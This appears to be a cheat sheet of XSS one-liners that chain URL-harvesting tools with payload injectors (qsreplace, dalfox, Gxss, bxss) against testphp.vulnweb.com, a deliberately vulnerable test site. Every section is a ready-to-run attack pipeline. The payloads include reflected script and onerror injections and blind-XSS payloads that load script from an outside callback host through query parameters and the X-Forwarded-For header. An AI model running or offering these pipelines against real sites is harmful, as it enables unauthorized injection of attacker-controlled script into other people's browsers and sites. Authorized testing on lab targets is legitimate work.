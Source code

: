 ## XSS One-Liners

### Tools: gau, qsreplace

```
gau testphp.vulnweb.com --threads 5 | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace '"><script>confirm(1)</script>//' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```


### Tools: gau, gf, uro, httpx, Gxss, dalfox

```
gau "http://testphp.vulnweb.com" | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox pipe
```

### Tools: gau, qsreplace, xsschecker

```
gau "http://testphp.vulnweb.com" | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
```

### Tools: subfinder,gau, bxss

```
subfinder -d testphp.vulnweb.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hunterxbxss.bxss.in></script>' -parameters
```

### Tools: subfinder, gau, bxss

```
subfinder -d testphp.vulnweb.com | gau | bxss -payload '"><script src=https://hunterxbxss.bxss.in></script>' -header "X-Forwarded-For"
```

### Tools: waybackurls, gf, uro, qsreplace, freq

```
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```


### Tools: katana, gf, uro, httpx, Gxss, dalfox

```
echo "testphp.vulnweb.com" |  katana -passive -pss waybackarchive,commoncrawl,alienvault -f qurl | gf xss | uro | httpx -silent | Gxss -p Rxss | dalfox pipe
```
